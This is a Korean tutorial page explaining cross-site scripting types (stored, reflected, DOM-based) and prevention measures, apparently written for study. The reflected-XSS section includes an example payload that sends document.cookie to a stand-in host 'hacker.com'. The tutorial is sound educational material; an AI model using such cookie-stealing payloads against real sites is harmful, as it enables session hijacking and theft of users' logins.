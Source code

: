 # XSS(Cross Site Scripting)

`XSS`는 **악의적인 스크립트 언어를 통해 웹 사이트가 아니라 사용자를 공격하는 방법**입니다. 

스크립트는 Client-side인 브라우저에서 해석되어 실행되기 때문에 사용자에게 피해를 입히는 것이 특징입니다. 

`CSRF`가 인증된 사용자에 대한 웹 앱의 신뢰를 악용한 것이라면, `XSS`는 특정 웹 앱에 대한 사용자의 신뢰를 악용합니다.

XSS 공격의 잠재적 피해는 다음과 같습니다.

1. 피해자의 쿠키를 탈취하여 로그인 정보를 획득
2. 사용자의 키 입력을 캡쳐
3. 사용자를 악성 웹 사이트로 리디렉션
4. 그 밖의 브라우저에서 실행 할 수 있는 악의적인 스크립트 실행

XSS의 종류는 크게 3가지가 있습니다.

#### 1. Stored(or Persistent) XSS

**서버의 DB에 스크립트를 저장하여 지속적인 피해를 발생시키는 방법**입니다.

쉽게 말하면 게시글이나 댓글과 같이 서버에 저장되는 곳에 스크립트를 넣어 서버에 저장 시킴으로써 해당 글이나 댓글을 보는 사람 모두에게 피해를 입히는 방법입니다. 

<img src="https://user-images.githubusercontent.com/53790137/153735935-d468e76a-4bfe-4169-b7ff-bf79473f94fd.png" width="500" height="300">

1. 해커가 게시글에 악성 스크립트를 작성하여 등록을 요청합니다.
2. 웹 앱은 스크립트의 존재를 파악하지 못하고 DB에 저장합니다.
3. 사용자가 해커가 만든 게시글을 요청합니다. 서버는 DB에서 꺼내서 응답하고 사용자의 브라우저는 렌더링하면서 스크립트를 실행시킵니다.


#### 2. Reflected XSS

**요청 파라미터 값을 응답에 사용하는 부분에 요청 파라미터로 스크립트를 삽입하는 공격**입니다.

<img src="https://user-images.githubusercontent.com/53790137/153736324-d899de44-9108-4928-8923-b6b10c72ecc2.png" width="500" height="300">

1. 해커가 사용자에게 악의적인 스크립트가 담긴 URL을 전송합니다.
2. 사용자가 URL을 클릭하여 WebApp에 요청합니다. 서버는 입력된 값을 그대로 응답 메시지에 포함시켜 응답하고 사용자의 브라우저는 렌더링하면서 스크립트를 실행합니다.

예를 들어 "홍길동"을 검색하면 "홍길동 검색 결과 : 1개"와 같이 서버가 응답한다고 가정하겠습니다.

요청 URL은 다음과 같습니다.

```
    https://samplewebapp.com/search?q=홍길동
```

해커는 서버에 대한 사용자의 쿠키를 모두 자신의 서버로 보내고 싶습니다. URL을 만들면 다음과 같습니다.

URL 인코딩은 편의상 생략하겠습니다.

```
    https://samplewebapp.com/search?q=
    <script>
        window.location='http://hacker.com/collectCookies?cookie=' + document.cookie
    </scirpt>
```

이렇게 만든 악성 URL을 사용자가 클릭하게 된다면 `q=` 이하의 스크립트가 그대로 HTML에 삽입되어 사용자에게 응답되고 사용자의 브라우저는 렌더링을 하면서 스크립트를 실행하게 됩니다.

검색 결과 말고도 에러 메시지와 같이 입력 값을 응답에 그대로 사용하는 부분이라면 모두 적용될 수 있습니다.

#### 3. DOM-based XSS

> **DOM이란,** Document Object Model를 말하며 브라우저가 HTML 페이지를 로드하면서 HTML 태그들을 객체화 시킨 것을 의미합니다.
> **DOM의 목적**은 HTML 페이지가 출력된 이후 <ins>HTML 요소들의 모양이나 콘텐츠를 스크립트를 통해 동적으로 제어하기 위함</ins>입니다. 
> 여기서 `DOM-based`의 의미는 **DOM을 제어하는 스크립트에 악의적인 스크립트를 심는다**고 생각하면 될 것 같습니다.

`Stored XSS`와 `Reflected XSS`는 모두 서버에서 사용자의 입력을 필터링 하지 않는 취약점을 이용한 방법입니다. 즉, **서버 코드의 취약점을 이용한 공격**입니다. 

반면에 `DOM-based XSS`는 **DOM을 조작하는 클라이언트 코드의 취약점을 이용한 공격**으로써 서버에서 필터링 하는 것으로는 해결할 수 없다는 특징이 있습니다.

<img src="https://user-images.githubusercontent.com/53790137/153737045-314abff5-4784-4dc2-aae5-e02177118a6e.png" width="500" height="300">

1. 해커는 악의적인 스크립트가 포함된 URL을 사용자에게 보내 클릭하게 유도합니다.
2. 사용자는 URL을 클릭하여 응답을 받습니다. 응답 메시지에는 사용자의 입력 값을 사용하여 동적으로 DOM을 조작하는 클라이언트 코드가 있습니다. 해당 코드가 실행되면서 해커가 심은 스크립트가 실행됩니다.

이해가 쉽게 좀 더 구체적인 상황을 그림으로 보도록 하겠습니다.

![image](https://user-images.githubusercontent.com/53790137/153737414-dc705388-d97a-4745-8456-dec91c54e471.png)

1. 해커가 악의적인 스크립트가 담긴 악성 URL을 사용자에게 보냅니다.
2. 사용자는 악성 URL을 클릭하여 웹 사이트에게 요청합니다.
3. 웹 사이트는 요청 파라미터 `keyword`에 입력된 값을 이용하여 DOM을 조작하는 클라이언트 코드를 응답 메시지에 포함하여 보냅니다.
4. 사용자의 브라우저는 응답 받은 HTML을 렌더링 하여 출력하고 클라이언트 코드를 실행하여 keyword의 값을 DOM 객체에 삽입합니다. (이때 해커가 심은 스크립트가 삽입되면서 자동으로 실행됩니다.)
5. 해커가 심은 악의적인 스크립트가 실행되어 해커의 서버에게 데이터를 전송 시킵니다.

`Reflected XSS`의 예시와 비슷하여 차이점이 쉽게 눈에 안 들어올 수 있습니다. 

`반사 XSS`의 예시는 서버에서 요청 파라미터 값을 읽어서 HTML에 직접 삽입하는 경우이고, `DOM-based XSS`의 예시는 HTML에 서버가 삽입하는 것이 아니라 클라이언트에게 맡기는 경우입니다.

`DOM-based XSS`도 서버에서 요청을 필터링 하면 되지 않느냐는 물음이 생길 수 있습니다.

`#`을 이용하여 다음과 같이 URL을 변경하면 `#`이하는 서버에 전달되지 않습니다. 

```
    http://website/search?keyword=something#<script>...<script>
```

## XSS 방지 방법

- 사용자의 입력을 절대 신뢰하지 않습니다. 
- 출력 인코딩을 구현합니다. 스크립트에 사용되는 특수문자 같은 것을 삭제하거나 인코딩하여 출력합니다.
- 사용자의 입력 유효성 검사를 수행합니다. 필터링을 통해 제거하거나 오류 처리를 합니다.
- 웹 앱 개발이 [OWASP의 XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)와 일치하는지 확인합니다.
- 침투 테스트를 수행하여 보안을 확인합니다.
- XSS 방지 라이브러리를 사용하는 것도 한 방법입니다.

위는 서버에서 방지하는 방법이고 사용자는 웹 방화벽이나 브라우저 확장 앱중 XSS를 방어하는 애플리케이션을 설치하는 방법이 있습니다.

## 참고
- https://noirstar.tistory.com/266
- https://alwaysbeen.tistory.com/57
- https://www.synopsys.com/glossary/what-is-cross-site-scripting.html
